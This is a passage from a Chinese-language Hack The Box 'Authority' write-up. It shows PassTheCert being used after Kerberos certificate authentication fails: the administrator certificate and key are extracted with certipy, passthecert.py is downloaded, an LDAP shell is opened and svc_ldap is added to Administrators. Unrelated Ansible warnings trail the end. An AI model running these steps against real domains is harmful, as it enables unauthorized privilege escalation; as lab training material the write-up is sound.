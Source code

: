 ```bash
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

##### KDC_ERR_PADATA_TYPE_NOSUPP

搜了一下这个报错，发现[这篇文章](https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d)提到了可以用 `PassTheCert` 进行LDAP认证。  
> If you run into a situation where you can enroll in a vulnerable certificate template but the resulting certificate fails for Kerberos authentication, you can try authenticating to LDAP via SChannel using something like PassTheCert. You will only have LDAP access, but this should be enough if you have a certificate stating you’re a domain admin.

### [PassTheCert](https://github.com/AlmondOffSec/PassTheCert)

根据其[github文档](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python)，从pfx中提取crt和key：
```bash
┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy cert -pfx administrator_authority.pfx -nokey -out user.crt
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'user.crt'
                                                                                                                    
┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy cert -pfx administrator_authority.pfx -nocert -out user.key
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Writing private key to 'user.key'
```

下载 `passthecert.py`，按照文档执行后成功获取admin权限的 `ldap-shell`：
```bash
┌──(kali㉿kali)-[~/HTB/Authority]
└─$ wget https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/main/Python/passthecert.py

┌──(kali㉿kali)-[~/HTB/Authority]
└─$ python3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain authority.htb -dc-ip 10.10.11.222
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Type help for list of commands

# add_user_to_group svc_ldap Administrators
Adding user: svc_ldap to group Administrators result: OK



*Evil-WinRM* PS C:\Users\svc_ldap\Documents> whoami /all

USER INFORMATION
----------------

User Name    SID
============ =============================================
htb\svc_ldap S-1-5-21-622327497-3269355298-2248959698-1601


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ===============================================================
```

[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available